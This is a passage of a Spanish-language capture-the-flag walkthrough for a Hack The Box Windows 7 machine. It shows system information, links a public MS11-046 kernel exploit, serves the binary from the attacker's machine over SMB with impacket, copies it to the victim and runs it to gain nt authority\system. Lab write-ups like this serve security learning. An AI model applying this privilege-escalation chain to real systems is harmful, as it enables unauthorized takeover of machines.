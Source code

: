 ```
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.347 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.425 MB
Virtual Memory: In Use:    716 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.155.162
                                 [02]: fe80::11b7:e738:3f31:b822
                                 [03]: dead:beef::d120:907d:57ca:f12f
                                 [04]: dead:beef::11b7:e738:3f31:b822
```

La versión del sistema operativo `OS Version: 6.1.7600 N/A Build 7600` es `vulnerable` al parecer, he estado investigando y he encontrado este exploit [https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe). Para `transferirlo` a la máquina víctima nos montar un `servidor SMB` en el `mismo directorio` del `exploit`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Nos `descargamos` el `binario` en la máquina víctima

```
C:\Windows\Temp\privesc>copy \\10.10.16.16\smbFolder\ms11-046.exe 
copy \\10.10.16.16\smbFolder\ms11-046.exe 
        1 file(s) copied.
```

`Ejecutamos` el `exploit` y nos convertimos en `nt authority\system`

```
C:\Windows\Temp\privesc>copy \\10.10.16.16\smbFolder\ms11-046.exe 
copy \\10.10.16.16\smbFolder\ms11-046.exe 
        1 file(s) copied.

C:\Windows\Temp\privesc>ms11-046.exe 
ms11-046.exe 

c:\Windows\System32>whoami
whoami
nt authority\system
```
